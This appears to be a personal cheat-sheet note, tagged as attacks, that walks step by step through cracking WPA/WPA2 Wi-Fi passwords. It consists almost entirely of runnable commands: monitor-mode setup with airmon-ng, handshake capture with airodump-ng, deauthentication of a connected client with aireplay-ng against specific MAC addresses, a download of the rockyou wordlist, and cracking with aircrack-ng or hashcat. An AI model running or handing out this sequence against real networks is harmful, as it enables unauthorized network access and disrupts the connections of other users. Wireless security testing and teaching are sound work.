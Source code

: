 [[Attacks]]

https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

##### Kill unnecessary processes:
`sudo airmon-ng check kill`

##### Start listen for all nearby beacon frames to get target BSSID and channel:
`sudo airmon-ng start wlan0`
##### Same but with device manufacturer:
`sudo airodump-ng wlan0 -M --wps`

##### Start listening for handshake:
`-w capture/` - capture packets to a file
`-c` - set channel
`airodump-ng -c 1 --bssid <BSSID> -w capture/ wlan0`

##### Optionally deauth a connected client to force a handshake:
`-0 2` specifies we would like to send 2 deauth packets. Increase this number
if need be with the risk of noticeably interrupting client network activity  
`-a` is the MAC of the access point  
`-c` is the MAC of the client  
`aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0`

##### Crack password with aircrack-ng
In order to crack the password, we can either use aircrack itself or create a hashcat file in order to use **GPU** acceleration.
`curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`
crack w/ aircrack-ng:
`aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap`

##### or crack password with hashcat (windows)
convert cap to hccapx:
`cap2hccapx.bin capture/-01.cap capture/-01.hccapx`
or online: https://hashcat.net/cap2hashcat/

crack with hashcat (wpa2 mode):
`.\hashcat.exe -m 22000 -a 0 .\166300_1690285999.hc22000 .\rockyou.txt`

##### Restore network connection
`sudo ifconfig wlan0 down`
`sudo iwconfig wlan0 mode managed`
`sudo ifconfig wlan0 up`
`sudo service NetworkManager restart`